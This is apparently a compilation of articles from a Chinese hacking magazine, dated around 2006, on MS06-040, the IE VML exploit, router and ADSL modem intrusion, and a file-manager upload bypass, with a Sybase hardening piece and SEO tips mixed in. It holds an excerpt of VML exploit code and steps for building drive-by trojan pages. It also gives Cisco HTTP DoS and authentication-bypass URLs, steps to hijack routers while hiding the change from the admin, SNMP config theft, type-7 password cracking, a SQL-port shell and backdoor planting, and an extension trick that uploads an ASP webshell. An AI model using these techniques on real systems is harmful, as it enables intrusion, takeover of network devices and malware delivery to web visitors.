如果你有足够的毅力和踏实的技术，在 Windows 里很多 Impossible 都会变成 I’m possible，而这两者间往往就差那么巧妙的一撇！这一撇的巧妙正是我喜爱这种技术的根本。

## 展望篇

### 三山高月小，水落石出

大道不过一二四，然而在我看来，唯有跟进内存、盯着寄存器，被莫名其妙的问题反复折腾之后最终成功的人，才有资格谈论“道”。下面就让我们拨开云雾去看看山高月小和水落石出的美景吧！

### 1. 魔波，蠕虫现身！

不管是让远程的机器“嘀”一下，还是绑定 command 作为后门，或者磁盘格式化，这些在编程技术上是没有本质区别的。可能高人的技术到了一定层次会有种高处不胜寒的寂寞感吧，就有人会写点东西让自己的程序利用漏洞在网络间自己复制传播，这就是蠕虫。

由于在 Windows XP SP2 上 MS06-040 是不能被成功利用的，主要受害机器集中在 Windows 2000 和 XP 低版本操作系统，所以受害机群较少。另外，RPC 调用需要使用 139 和 445 端口，这两个端口早在冲击波年代就被各大网关路由全面封杀过了，所以从网络角度讲，这次计算机风险还不至于引起拥塞瘫痪。但是我个人认为，这次计算机风险还没有完全过去。因为蠕虫爆发时正值学校放假，可能当时影响并不大，现在高校开学，大量校园网用户无法出国更新补丁，所以仍应当提高警惕。

魔波的逆向分析我不想在这里占用篇幅了。本着学习研究提高技术的目的，我把魔波的 shellcode 部分放在了光盘中，至于完整的代码和可执行的 PE 样本，请原谅这里不方便公布，因为万一几个热血的朋友用这些资料搞出几个蠕虫变种来，我可担当不起这个责任。

### 2. 补丁，无洞可钻？

享受了溢出的快感之后，难道你不想看看微软补丁里究竟修改了什么吗？我在光盘中给出了补丁前后的不同版本的 netapi32.dll，用 IDA 看一下，在做长度检查时，已经由补丁前的限制 0x411 改成了补丁后的 0x208。Windows XP SP2 的补丁前后的 DLL 我也给出，你们不妨也去看看有哪些变动。MS06-040 中除了 NetpwPathCanonicalize() 还有其它问题，这里不再讨论，有兴趣的可以参考 0x557 上面的分析。

有钻洞的能力还要有洞可钻才行，否则补丁过后虫虫不是没活路了？这里我想谈谈怎么挖掘 0day。0day 是指能被成功利用，而微软官方并不知道或知道但尚未修复的漏洞。

适合读者：入侵爱好者、网马爱好者  
前置知识：无


## 利用 VML 漏洞挂马

文／图 XJJ

2006 年的国庆，对我们这些爱好网页挂马的人来说，是个值得庆祝的日子。因为往常的网页挂马手段很多不是失效，就是出来一个变种马上就被查杀。这样的日子已经足够郁闷的了，但是 9 月末爆出的 VML 漏洞，又让我们有了一个大展拳脚的舞台。

该漏洞代号为 KB925568，据说曾经是个未公布的漏洞，结果因为某网站在浏览过其网站的用户的机器上安装间谍软件而被曝光（见 http://sunbeltblog.blogspot.com/2006/09/seen-in-wild-zero-day-exploit-being.html）。

该漏洞的具体描述为 Microsoft 的矢量图形渲染库（vgx.dll）的 _IE5_SHADETYPE_TEXT::Text 过程在处理矢量标记语言（VML）文档中的某些内容时存在栈溢出漏洞。如果用户受骗使用 IE 浏览器浏览了 "rect" 标签中包含有超长 "fill" 方式的恶意 VML 文档的话，就会触发这个溢出，导致执行任意指令。

漏洞产生的原因是利用 vgx.dll 的 _IE5_SHADETYPE_TEXT::Text 过程在解析 VML 的时候，对字符串长度不作判断而导致缓冲区溢出，并可通过字符大面积覆盖的方式填充缓冲区，从而转到特意构造的代码处执行利用代码。不同的操作系统有不同的溢出地址……由于当时流行的是 Windows XP SP2，所以只要能利用到这个系统就可以了。

xSec.org 在 9 月 21 日公布了 Windows 2000 Server CN+IE6.0SP1 的 VML 漏洞利用程序，具体代码为：

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
FILE *fp = NULL;
char *file = "xsec.htm";
char *url = NULL;
#define NOPSIZE 260
#define MAXURL 260
// DWORD ret = 0x7Fa4512; // call esp for CN
DWORD ret = 0x7800CCD9; // call esp for All win2k
...
printf("[+] buff size %d bytes\n", psize);
// print html footer
fprintf(fp, "%s", footer);
fflush(fp);
printf("[+] exploit write to %s success!\n", file);
}
```

编译生成 vml.exe 后，在命令提示符下输入 `vml http://xxx.com/xxx.exe xxx.htm` 就可以生成 xxx.htm 挂马网页，不过木马扩展名一定要为 `.exe`，否则不可用。没过多久，可用于 Windows XP SP2 的网页挂马程序也出现了（文中给出下载地址）。其使用方法很简单，就是三个步骤：

- 1. 用记事本打开“生成.bat”文件，修改木马地址（如 `http://www.cc99.cn/xxx.exe`）。
- 2. 保存“生成.bat”后双击运行，即可生成 `ShellCode.txt`。
- 3. 用记事本打开 `IE_VML.htm`，找到 `##########Your Shellcode!!!##########` 字样，把 `ShellCode.txt` 中生成的 Shellcode 复制替换后保存即可。

由于这个漏洞是通过修改缓冲区来利用的，所以会导致 IE 在浏览该网页后马上崩溃，但这对攻击者来说不足为虑，能够种木马就够了。

虽然微软打破补丁更新频率，在 2006 年 9 月 27 日发布了补丁，但是由于接近国庆中秋长假，很多人并不知道这个补丁。于是，整个假期就成了网页挂马最繁忙的日子。

假期过后，特别是 2006 年 10 月 10 日的大规模补丁下载以及杀毒软件频繁升级，让许多人知道了 VML 漏洞；同时由于同期一些更容易利用的漏洞（如 WebViewFolderIcon 漏洞）出现，使得 VML 网页挂马大面积危害终于过去，现在只能在小范围内传播了。

0day 是指尚未公布的漏洞。掌握一个 0day，你就几乎可以所向披靡地随意 Hack 全天下机器了。我们讨论的 MS06-040 在发布前无疑是一个被高手玩弄于股掌之间的 0day，不管是对 Hacker、对微软、对安全公司，0day 都有很重要的意义。能够利用漏洞只是懂了一点技术的大鸟，能够发现 0day 的才是真正的高人。

其实在我们实验的基础上，把 RPC 溢出的代码略加改动，丰富一下 IDL 中接口和函数定义，你就可以拥有自己的 RPC 漏洞发掘工具了。远程函数如果需要 int 的就给送 long 型，指针的就试点 NULL 之类，字符串的就用超长的往里塞，总之把所有可能引起错误的因素组合一下，一个一个地送进函数看反应。你可以编程把 RPC 能够 call 到的远程函数一个一个测试过去，如果发现崩溃，就用我们前面的调试方法跟进去看看崩溃原因，结合栈和寄存器状态确认下能不能利用，运气好了就会撞到 0day 啦。

**脚本小子：**SYBASE 数据库是应用较为广泛的关系数据库，跨平台，高效率。在国外经常看到它的身影，而国内关于它的文档并不多，本文对 SYBASE 数据库的安全策略进行了探讨并介绍了实际工作中总结出来的加强数据库安全性的方法，旨在抛砖引玉，欢迎广泛讨论。

**适合读者：**SYBASE 管理员、网络安全爱好者

**前置知识：**无

## SYBASE 数据库

### 安全机制漫谈


管理信息系统（MIS）是以数据库为基础实现的，对于数据库系统来说，最重要的是存储在其中的各类数据信息。当许多用户共享数据库中的大量数据时，数据库安全问题就显得尤为重要，如果没有充分的安全机制，那么任何人就可以存取和修改其中的数据，甚至破坏数据库，后果不堪设想。

美国 SYBASE 公司是世界十大独立软件制造商之一，公司名称取自 System（系统）和 Database（数据库）。SYBASE 数据库系统适用于各种平台和操作系统环境（如 Windows、Linux、UNIX 等），在企业数据库领域占有较大优势。本文主要讨论 SYBASE 的安全性控制策略并给出一些在应用当中的实用安全技巧。

### SYBASE 的安全性控制策略

在 SYBASE 数据库系统中，安全设置有四个层次，分为操作系统层、服务器层、数据库层和对象层。下面分别讨论这四个层次。

- 1. 操作系统安全
- 2. SYBASE 服务器安全
- 3. SYBASE 数据库安全
- 4. SYBASE 对象安全

#### 1）操作系统安全

无论是服务器端还是客户端，要访问数据库数据的 SYBASE 用户都需要通过用户名/口令登录操作系统，取得机器使用权。不同操作系统有不同的用户管理策略来保障系统安全。对于客户端通过应用程序或 SYBASE 提供工具访问数据库的用户，不需要知道服务器端操作系统的用户名和口令。

### 2）SYBASE 服务器安全

进入操作系统的用户需要进行服务器登录，登录由 DBA 管理。登录成功意味着用户可使用 master 数据库。登录通过登录名和正确口令组合完成，并可通过系统存储过程（如 `sp_configure`）设置口令策略与更换周期。安装时会自动建立 SA 登录，SA 是系统数据库所有者，具备 `sa_role` 与 `sso_role` 等角色，可进行系统与安全管理。每次登录在系统表 `syslogins` 中有记录并有唯一 `suid` 标识，对应存储过程如 `sp_addlogin`、`sp_modifylogin`、`sp_displaylogin`。

### 3）SYBASE 数据库安全

用户要获得某数据库访问权，必须在相应数据库中建立用户，并在用户与登录之间建立联系。每个用户在该库的 `sysusers` 表中有对应记录，含 `suid`、`uid`、用户名、所属组等信息。权限可授予用户、角色或组；组是用户集合，组内用户共享组权限。`public` 组为系统默认组，所有用户均为其成员，便于统一授权。数据库操作需经 DBMS 权限检查，主要通过系统表 `sysusers` 与 `sysprotects` 实现身份与授权控制。

### 4）SYBASE 对象安全

数据库对象包括表、存储过程、视图及扩展存储过程等。对象所有者或创建者可将对象权限授予其他用户。表权限包括 `select`、`insert`、`update`、`delete`、`reference`；存储过程与扩展存储过程权限为 `execute`；视图权限包括 `select`、`insert`、`update`、`delete`。通过对象级授权将用户活动控制在小范围内，从而提升数据库安全性。

Sybase 提供了 GRANT 和 REVOKE 命令，以便授予或取消许可权。系统管理员（System Administration, SA）享有服务器内所有数据库对象的许可权。授权语句 `grant` 的执行会导致系统表 `sysprotects` 中记录增加，记录内容包括对象标识（id）、被授权者标识（uid）、权限类型（action）等。它记录了数据库对象的权限授予情况，既包括对用户的授权，也包括对组的授权。

SYBASE 的角色分为两类：预定义角色（系统角色）和用户自定义角色。角色是权限集合，可以授予登录。通过角色划分可将特定权限赋予特定用户，以便只有特定用户执行特定任务。如图 1 所示，表示登录、用户、组、角色、对象权限之间的关系。

- 3）为 `public` 组授权时必须十分谨慎，尤其是 `insert`、`update`、`delete` 权限。一旦授予 `public` 组，则所有用户都具有该权限。SYBASE 遵循“最后发生的有效”原则。
- 4）在许多应用中，需要不同用户对同一表的不同数据集合进行操作。Sybase ASE 早期版本中，授权语句对表的授权只能到列级，难以直接到行级。常通过视图与 `where` 子句组合实现行级保护，但视图有一定限制（如多表字段更新限制、包含 `distinct` 视图的更新/插入限制等）。在教学管理等系统中，可结合用户命名规则与条件限制，确保不同用户只能访问本系数据。


## 实用安全技巧

- 1. 客户端与服务器连接时应安装必要的 SYBASE 客户端组件。一般用户仅需 Language Modules 与 Connectivity 组件即可，避免安装多余组件带来安全隐患。安装完成并连通后，可移除桌面快捷方式，减少误操作或恶意修改风险。
- 2. 客户端组件 `dsedit` 用于连接配置。建立服务时需输入服务名与服务地址。可在局域网 DNS 中建立域名并用“域名+端口”方式配置（如 `db.xsgl,5500`），以减少暴露真实 IP，且便于服务器 IP 变更后的维护。
- 5）对于用户数较多、职能分明的大型应用系统，应按职能进行分组并分配最小必要权限。可将不同部门用户划入不同组，按需授予权限，使每个用户仅具备完成本职工作的最小权限与访问范围。

### 结束语

SYBASE 数据库为实现安全采取了多种技术手段，并提供了额外安全支持（如目录控制层 DCL、安全控制层 SCL、SSL 与 PKI 机制等）。在 Sybase ASE 12.5 中已具备更细粒度控制能力。由于数据库系统安全威胁来自网络、软件、人员与环境等多个方面，安全保障不能仅依赖软硬件或管理系统本身，还需建立全面、可执行的安全管理制度，并将多种安全措施协同配合，才能使系统更加安全可靠。

适合读者：网站站长，商业人员

前置知识：无


## 互联网时代的技术突现

### 搜索引擎排名优化技术

文／图 团团（虫粉）

用过 Google、百度、DMOZ、Yahoo、Looksmart 之类的人都知道，当我们需要检索某个产品或者信息的时候，在输入相关词时会出现相应的信息资料。作为厂商，都希望自己的信息资料排在前列，那么相应得到产品的宣传机会就大大增加。拿 Google 来说，一种最简单的方法就是交钱（傻子都知道），这样就会出现在 Google 的右边“赞助商链接”里，当然这不是我所要谈的，毕竟不是每个人都愿意交这份钱，而且我了解过像百度检索到别人公司的网站，每点击一次都要交钱，那对于小公司或者个人来说可是不错的费用。

我通过查阅很多资料和问过一些相对专业的人士之后决定探索一下这个问题，希望对大家有些帮助。其实现在网上有很多公司都会向你保证每个月公司的关键词搜索，保证在前十或者前几，那么这些公司中有多少是与 Google 公司有业务往来，或者说是通过正常的渠道来提高排名的呢？我想或许不多吧。那么对他们来说一定是通过某些手段来提升排名的；在这之前所曝光的“Google 否认使用作弊技术提升排名”事件说明了一切。无风不起浪嘛，道高一尺，魔高一丈，毕竟软件也是人写的，要想人不知除非己莫写。还是以 Google 为例，毕竟 Google 已成为具有垄断优势的全球性搜索引擎，算上它为 Yahoo 和 AOL 提供的搜索服务，Google 目前的全球市场占有率已超过 80%，简单的结论是，如果你的网站在 Google 上不能获得良好的排名，那么你的网络营销策略就是失败。

下面是我了解的一些资料，有些大家可以在网站上搜索到，也算是充分利用资源。

要想针对 Google 来优化你的网页和进行相应的推广工作，首先得了解 Google 是以什么规则来评估一个网站对于某个特定关键词的排名值的。当然，除了 Google 的工程师，没有谁真正知道这个秘密。

Google 的 PageRank 公式十分复杂，而且不是一成不变的。我们所说的链接包括网站内部链接、连出链接和连入链接，其中最重要的是连入链接。Google 通过统计这些链接的质量和数量来给网站确定 PageRank 值，值越高排名也就越高。理论上 PageRank 是浮动的，每个月可能都会变动。因此网站建好后你需要投入大量的时间和精力来获得大量的外部链接，特别是来自 PageRank 值比较高的网站的链接。我们可以试一下像 163、Sina、Sohu 等大型网站，他们的值都会很高。

一般说来，如果一个网站的 PageRank 值是 4 到 6 的话，说明这个网站已经获得了不错的访问量。如果到了 7 以上，说明不管是从网站的质量到知名度都非常优秀了。

想要提高 PageRank 的值，方法其实大家一定也知道了。第一是疯狂地登录，把你的资料提供给所有搜索引擎（DMOZ、Yahoo、Looksmart 等），这样起码 PageRank 可以向上提升 1 到 2 分。第二就是与其它网站互相连接，毕竟团结就是力量，而且这样可以使双方的 PageRank 都得到提高。当然也要注意不要链接太多内容无关的网站，否则 Google 会作为作弊处理给予处罚，吃力不讨好。第三就是提升网站的品质，这个就不是一下两下可以说清楚的，主要是要吸引眼球。

### 影响 Google 排名的因素

- 1. **Link Popularity**  
  国内有人译作“链接广泛度”，是 Google 用来评判一个网站价值的主要手段。我们都知道 Google 工具条上有一个绿色的 PageRank 标尺，就是用来指示网站的链接广泛度的。如果要用的时候需要先安装 Google ToolBar，在 Google 的主页就可以下载，现在是 3.0 的版本。安装完之后在 IE 中就有了 Google 搜索栏，点击“选项”，在对话框中选择“PageRank 显示”，这样就会看到一个小长方条，绿色相应地代表它的值，PageRank 值从 0 到 10。
- 2. **Page Title**  
  搜索引擎是通过关键词来选择网站的，而网站的标题是搜索引擎寻找关键词的主要目的地。通过分析 Google 的搜索结果就可以很清楚地发现这一点。因此，你一定要首先确定你的网站主关键词（一般可以选定 1 到 5 个），然后再将关键词体现在网页的 Title 中去。记住，Title 标签不要超过 40 个字符。  
  除了显示在浏览器顶部的 Title 标签，网页主体里面的文字标题往往也起到很大作用，一个含有主关键词格式的标题，也能对网页的排名起到很大的作用。这个标题除了标签外最好是没有任何的定义。不过，现实是大多数人为页面的美观都不愿意这样做。
- 3. **Keyword Density**  
  关键词除了需要出现在标题里面，还需要在整个网页里面以一定的频率出现。你需要在标题、段落内容、文字内容、页头和页尾、Alt 标签甚至不显示的区域等位置合理布局关键词。

### 实际的操作方法

- 1. 添加链接  
  要添加也要添加在流量大的网站，比如：Yahoo、Sina 的论坛。
- 2. 搜索引擎  
  想办法让你的资料出现在大的搜索引擎里面，这个有一定的时间性，不是能够实时体现出来的。
- 3. 网站访问量  
  这个就需要一定的技巧了，比如说代理，可以通过编写一个程序让你的代理列表的每台机器每过多少时间来访问你的网站，这样每天执行的话，我想你的排名也不会太靠后的，当然这个也是一个辛苦活。
- 4. 修改自己个人网站  
  我们都知道，再怎么做如果你的网站没有内容也只是昙花一现（毕竟个人力量还是有限的），所以如何让你的网站吸引眼球、内容丰富？加入优秀的 Flash，及时地更新都会使网民们喜欢你的网站……

10 多个月都不更新的网站！还要说的就是，注意图片之类的文件压缩也是很重要，如果太大，造成访问速度太慢，我想很多人不会等你的网站显示出来就早早把它 close 了。关键词的引用也非常重要……我们的口号是“不求最好，但求免费”。（WTF：本文作者所述内容，均为私人观点，请读者慎重试验……）

适合读者：入侵爱好者，网管爱好者  
前置知识：路由攻击基础

## 让硬件入侵不再是神话


文/图 ivory

现在的入侵手法莫过于一些简单的 SQL injection 填字游戏，很单调。我最近在学习硬件方面的入侵，也了解了一些 ADSL Modem 和 Cisco 路由器的入侵手法，不敢独享。本文主要是提供一些具体过程，起个抛砖引玉作用。

### 从 ADSL Modem 谈起

### 1. 扫描

现在很多 ADSL Modem 都是通过 80、23、21 三个端口来管理的……我选择了 23 端口，打开 SuperScan，填上所在地区的 IP 段……在浏览器里输入 IP 后登录对话框出现，输入默认账号密码后 Bingo！……如图 1 所示。


图1

### 2. 映射

本来我们来到图 1 所示的界面，拿一个上网密码就 OK 了。但是我希望能入侵内网，这里只仅仅成功了一半。要进一步入侵内网，我们要进行端口映射……一般来说 Modem 的内网 IP 缺省是 192.168.1.1，而大多数就把自己主机的 IP 设成 192.168.1.2。168.1.2 的端口映射出来就行了（但如果使用了 DHCP 就麻烦了）……后来，我发现华硕的 `doc/lan_conf.htm` 配置页面已经记载了所有我们想要得到的信息，如图 2 所示。


图2

我们从这里可以看出，ADSL Modem 已经配置了 DHCP。DHCP 服务是自动分配 IP 地址的网络服务……可能存在主机 IP 地址为 `192.168.0.110`、`192.168.0.111` 两台主机。我们这里直接按照 `192.168.0.110` 来做实验。

具体做法如下：进入 NAT 选项 → 添加 NAT 规则 → BIMAP → 填入主机 IP：`192.168.0.110`……到此 `192.168.0.110` 已经透明地映射到 `192.168.0.1` 上了，如图 3 所示。


图3

### 3. 漏洞检测

现在我们再请出 SuperScan 或者其他扫描器对 218.xxx.xxx.xxx 进行扫描。扫描结果已经不同，开放端口有很多，映射已经成功……如图 4 所示。

### 4. 溢出

既然没有弱口令，也没开 80，那只好从溢出方面着手……我试了 RPC 溢出，LSASS 溢出也不行，再利用 MS06-024 漏洞攻击程序还是不成功。


图4

### 5. 蓦然回首，那人却在灯火阑珊处

看起来管理员还是比较负责的，该打的补丁都打上了……这时目光转移到 1433 上了，于是在 cmd 行中打入：

```
nc ... 1433 ...
sql2 218.xxx.xxx.xxx ... 99
```

Bingo! 成功地得到一个 shell 了。

### 6. 设置后门

到这里，我们的入侵已经成功了，余下的工作是扫尾留后门……一般用 FTP 上传 Radmin 上去，至于别的后门办法请查看其他文章。

## Cisco 路由器入侵的艺术

Cisco 路由器是现在网络中用得最多的一个节点，路由器是组成 Internet 的重要组件……这里以 Cisco 为例。现在 Cisco 多使用 IOS 软件，也就是路由器操作系统。

### 1. IOS 自身欺骗

Cisco 路由器是用 IOS 系统来实现路由的细节功能，因此它是路由系统的灵魂……Show 命令在线系统为我们打开一个偷窥之门。一般用户只能查看很少信息，特权模式用户才能查看全部信息和修改路由，以查看访问列表或其他路由安全相关信息。重要安全相关的 ACL 信息可以被登录路由的非特权用户查看，诸如：

```
#show access-lists   // 显示当前所有 ACL 的内容
#show ip prot        // 显示该协议进程的参数和当前状态
#show ip ospf dat    // 显示 OSPF 数据库
#sh ip eigrp top     // 显示 EIGRP 列表
```

以上命令可以在非特权模式下泄露网络敏感信息。通过这些命令，我们能得出路由器配置的大致情况，这对采取进一步的入侵起到辅助作用。不过由于这种方式需要用户已经有一个登录账户，因此得到这样的信息有一定难度。

### 2. WCCP 陷阱

Cisco 在 IOS 11.2 版本中引入 WCCP（Web Cache Control Protocol），为 Cisco 缓存引擎提供协议通信。Cisco 缓存引擎为 WWW 提供透明缓存服务。缓存引擎用 WCCP 来和其他 Cisco 路由器通信。路由器把 HTTP 数据发送到缓存引擎主机中。虽然这种方式默认是关闭的，假如使能（enable）的话，那么 WCCP 本身是没有认证机制的。路由器将会把每一个发送合法缓存引擎类型 Hello 包的主机认为是缓存引擎，于是把 HTTP 数据缓存到那台主机，这意味着恶意用户可以通过这种方式获取信息。通过这种方式，攻击者可以截获站点认证信息，包括站点密码，替代实际 Web 内容为自己设计的陷阱，通过路由彻底破坏 Web 提供的服务。这种方式可以完全规避登录项的攻击方法，对 Web 提供全面而且致命的打击。我们既可关闭 WCCP 的启用机制，也可通过 ACL 阻止 WCCP 发送 HTTP 流量给不信任主机来防止这样的恶劣情况发生。

### 3. HTTP 服务的困惑

Cisco 在 IOS 版本加入了远程管理路由的 Web 特性，这对于 newbie 管理员来说，无疑是值得高兴的事情。但引入方便的同时，隐患也随之进入。

- 1）基于拒绝式服务攻击的 HTTP 漏洞  
  Cisco 路由启用（enable）远程 Web 管理，很容易遭受 DoS。这种 DoS 能导致路由器停止对网络请求的响应。这个功能是 Cisco 路由的内嵌功能。但启用这个特性，通过构造一个简单的 HTTP 请求就会造成 DoS 攻击：
  ```
  http://<router-ip>/%%%
  ```
  这种请求导致路由停止响应，甚至引起路由器执行硬重置（hard reset）。
- 2）基于 HTTP 服务器查询的漏洞  
  Cisco 安全建议小组公布了这个漏洞。IOS 11.0 引入通过 Web 方式管理路由。“?”是 HTML 规范中定义的 CGI 参数的分界符，它也被 IOS 命令行接口解释成请求帮助。在 IOS 12.0 中，当问号邻接于“/”，URL 解释器就不能正确解释其含义。  
  当一个包括“?/”的 URL 对路由器 HTTP 服务器进行请求，并且提供一个有效的启用口令，则路由器进入死循环，因而引起路由崩溃并重启。如果 HTTP 启用，浏览 `http://route_ip_addr/anytest?/`，并且提供特权口令，则可以导致 DoS 攻击，导致路由停机或者重启。
- 3）Cisco IOS 认证漏洞  
  当 HTTP 服务器启用并且使用本地用户认证方式，在某些条件下可以绕过认证并执行设备上的任何命令。用户可以对设备完全控制。所有命令都将以最高特权执行（level 15）。使用 username 和 password 的路由设备账户认证方式，构造如下 URL：`http://router_ip_addr/level/xx/exec/...`（注：xx 代表 16 至 99 之间的 84 种不同的组合攻击，因为路由器硬件类型众多，而 IOS 版本也存在不同，因此针对不同的路由器类型，攻击组合数字不同。）  
  通过这种方式，攻击者可以完全控制路由并可以改变路由表配置。这种可怕的事实让网管也感到惊悸，这种完整的控制方式将是对网站数据通信枢纽的致命一击。虽然 HTTP 带来如此之多的漏洞，但这种漏洞最主要原因是因为启用 HTTP 服务器管理路由的缘故。由于这种管理是种命令行方式的替代物，因此对于熟练的网管来说，没有必要启动这种危害性很大的服务。“`#no ip http server`”的路由配置也成为时髦的安全配置语句。

### 4）常见入侵方法

在所有入侵中，本类型的入侵活动可谓是蓄谋已久的野蛮做法。方法本来的意图是用于管理员忘记密码后的恢复措施，而技术作为双刃剑的一面，更在于我们如何使用它。

如果你有一台笔记本电脑，你有一根与路由器相应类型的连接线，那么你配备了入侵路由的武器。剩下的时间，你将思考如何避开网管的眼睛，把连接线与路由器连接。以后的动作，需要你行动迅速。（以 25xx 系列路由为例）

- 1. 切断路由器的电源。
- 2. 连接计算机与路由器。
- 3. 打开超级终端（CTL-Break in Hyperterm）。
- 4. 在启动路由器的 30 秒时间内，迅速按 CTL-Break 组合键，使路由器进入 rom monitor 状态，出现提示符如下：
  ```
  rommon>
  ```
- 5. 输入 `o/r 0x2142`，修改配置注册器（config register）使路由器从 Flash memory 引导。
- 6. 输入 `i`，路由器初始化设置后重新启动。
- 7. 输入系统配置对话提示符或 `no`，一直等提示信息显示：`Press RETURN to get started.`
- 8. 输入 `enable` 命令，出现 `Router#` 提示符。

这时，我们可以完全使用 Show 命令查看路由中的一切配置，并可转储到计算机上。如果使用了 enable 的加密方式，虽然现在无法看，但可以使用工具进行破解。当然，粗鲁的做法是直接修改。

### 漏洞攻击

````
Router#conf term  -> 配置终端
Router(conf)#enable password 7 123pwd
-> 配置 enable 密码
````

进行完以上操作，别忘了恢复路由的正常状态，否则网管很快就能发现问题所在。

````
Router(conf)#config-register 0x2102
-> 配置寄存器值 0x2102
Router(conf)#exit  -> 退出
````

众所周知，Cisco 有个配置文件，这个文件可以说是路由工作的核心，让路由知道该干嘛、怎么干。如果你有了这个文件，我可以说你成功了 80%。怎么才能得到这个文件呢？

- 1. 通过 SNMP 得到，这样是最常用的，我想用过 SNMP 的人会知道怎么做了，就不多说了！
- 2. 攻击 TFTP 服务器，要得到的就是 Cisco 配置文件的存取权限。
- 3. 监视发往 Cisco TAC 的邮件（也就是 Cisco 技术助理中心），因为一般路由出了问题，都要求发出配置文件的。
- 4. 还有很多方法，我记得以前黑防也有这么一篇文章，不过我不赞成大家用那种方法，太危险了！如果要知道的，可以和我联系。
- 5. 还有很多办法，包括社会工程学。

上面只是一些思路，具体过程我这里不赘述了。下面就具体阐述 Solarwinds2001 得到 CISCO 密码过程。

Solarwinds2001 是个集多种功能于一身的 Cisco 管理工具，界面友好。工具条如下图 5 所示，酷似 QQ，清晰明了。


打开 Cisco Tools/IP Network Browser，设置如图 6、图 7 所示。


随便填入一段 IP 地址进行扫描，扫描后如果发现 Cisco 路由器，会显示如图 8 所示。现在我们可以用 Cisco Tools/Download Config 来下载这台 Cisco 路由器的配置文件，如图 9 所示。


好了，现在可以利用 Cisco Tools/Config Editor & Viewer 打开下载好的 config 文件，如下是我下载的一份配置文件（部分略去）：

````
!#show running-config  -> 配置环境
version 11.2  -> IOS 版本
no service pad
no service udp-small-servers
no service tcp-small-servers
!
hostname HIGHLNDSWSTWD.07.IDF1A.DSW08  -> 配置主机名
!
enable secret 5 $1$ukn/$LUQvrd7/YBaBNJRDIVEs.  -> 配置 enable secret 密码（加密过）
ip subnet-zero  -> 0 子网
!
interface VLAN1
 ip address ***.11.111.8 255.255.255.192
 no ip route-cache
!
interface FastEthernet0/1
 description Port connected to Apt# 7307
 shutdown
 port security max-mac-count 1
 no port security action trap
!
interface FastEthernet0/2
 description Port connected to Apt# 7308
 port security max-mac-count 1
 no port security action trap
!
interface FastEthernet0/3
 description Port connected to Apt# 7309
 shutdown
 port security max-mac-count 1
 no port security action trap
!
interface FastEthernet0/4
 description Port connected to Apt# 7310
 shutdown
 port security max-mac-count 1
 no port security action trap
!
interface FastEthernet0/5
 description Port connected to Apt# 7311
 shutdown
 port security max-mac-count 1
 no port security action trap
!
interface FastEthernet0/6
 description Port connected to Apt# 7337
 port security max-mac-count 1
 no port security action trap
...
ip default-gateway ***.11.111.*
mac-address-table secure ... vlan 1
snmp-server community N3tw0rk RO
snmp-server community private RW
snmp-server community public RO
snmp-server chassis-id 0x0F
!
line con 0
 stopbits 1
line vty 0 4
 password MDUAdmin
 ...
login
line vty 5 9
 password 7 15110E1E2A2F3F
 login
!
end
````

大家有没有看到这行 `password 7 15110E1E2A2F3F`，这就是密码了，这个是加过密的。Cisco 有三种口令类型：0 口令是明文；7 口令是常见加密形式；5 口令使用 MD5 哈希算法。

如果配置文件中已经有 `service password_encryption` 命令加密，比如这里出现 `password 7 15110E1E2A2F3F` 这类内容，可用 Cisco Tools/Router Password Decryption 解密，如图 10 所示。


图 10

之后，我们就可以 Telnet 进去了，而且拥有 enable 权限。这样我们就无所不能了。注意如果要进一步入侵内网节点，还需要入侵 Cisco 交换机。

### 安全建议

综上，我们网络管理员平常在管理的过程中不仅要注意到软件的安全，也要注意到一些硬件的安全。例如在 ADSL Modem 方面，我们应该禁止对外通信端口 23、80、21。对于 Cisco 路由器我们可以有下面的解决办法。

- 1. 通过 `no ip http server` 取消 HTTP 服务，消除 HTTP 带来的隐患。
- 2. 限制 SNMP 访问配置（如 `access-list`、`snmp-server community`、`snmp-server host`、`snmp-server enable traps` 等），通过 ACL 限制受信主机访问并设置陷阱告警。
- 3. 及时升级 Cisco 的 IOS 程序或者修补程序。
- 4. 推荐阅读 RAT 中的 RSCG 文档建议。
- 5. 利用安全工具对路由进行安全检查。

关于安全的建议问题，不是一劳永逸的事情，漏洞在暗处挖掘着，新的技术在不断膨胀着，因此以上的几点建议只作为参考，实际的运用当中我们应该根据实际情况作出正确的策略。

适合读者：脚本爱好者，入侵爱好者

前置知识：无

## COCOON 在线文件管理器

文／图 小雪

### 上传漏洞


近日浏览源码站点，下载了小琦加强功能版的 COCOON 在线文件管理器。开头的时候就想着检测是否存在漏洞。刚开始看了说明文本，知道该加强版中的一个功能是增加文件上传过滤，杜绝文件上传漏洞。本来打算从上传文件入手的，看到这里心也凉了，没戏。但是如何杜绝就不太清楚了，大家也知道上传的方法只有一种，但是技巧可是多种多样。转入正题吧，下面我就直接在小琦加强功能版本的程序基础上测试。

主要材料：网页木马一只。前提工作是首先进入了 COCOON 在线文件管理器界面，如图 1 所示。


图 2


图 1

该主机的安全配置大家也知道清楚了，就是 COCOON 在线文件管理器中的上传组件因过滤不严造成的漏洞。而小琦加强功能版中也提到增加过滤限制并杜绝文件上传漏洞。


图 3

直接在上传的对话框中选择一个 ASP 木马，点击上传，IE 很快弹出了对话框，提示不允许上传 ASP 格式的文件。看来说明文件里的话真的没错，果然不能上传。思路转一下，如果改下可以吗？大家看黑防也知道，通常在上传的时候有限制的，但如果在文件扩展名后面加上空格或者是一个点号就能成功上传了，这里我们就来试试。在上传的文件后缀名后面先来个空格吧，如图 2 所示。

IE 很快就弹出信息提示上传结束了。到底是真的上传了还是假的呢？在刚上传的文件显示栏中查一下，如图 3 所示。

文件相关信息清楚列出了刚成功上传的 ASP 文件大小以及路径，到这里基本上就已经突破上传文件的限制了，点击链接就可以得到该文件管理器的 WebShell 了，如图 4 所示。


图 4

文件上传漏洞了。其实管理员在上传的目录下设置好权限，禁止运行任何文件，最后上传的文件也没法执行。后来到了 COCOON 在线文件管理器的官方网站下载了最新的 3.1 版本测试了下，发现还是存在上传漏洞。以上仅是友情检测，如有利用者，后果自负。

**脚本小子**：读此文章，喷饭数次……作者的文风极具幽默之能事，而技术分析令人拍案叫绝！

适合读者：漏洞攻击爱好者，系统管理员

前置知识：无

## CMD 终极防守的幻灭

文/图 SDring


溢出是一种很直接的入侵方式，而且在对方没有防备的情况下会十分有效，可以直接得到 SYSTEM 权限。一般防范溢出的方法是将 cmd.exe 设置权限，但是这种方法在某些 Windows 版本上实现十分麻烦（如 HOME 版），并且很容易被上传 cmd.exe 绕过，对正常使用者来说还有可能妨碍正常使用命令行。

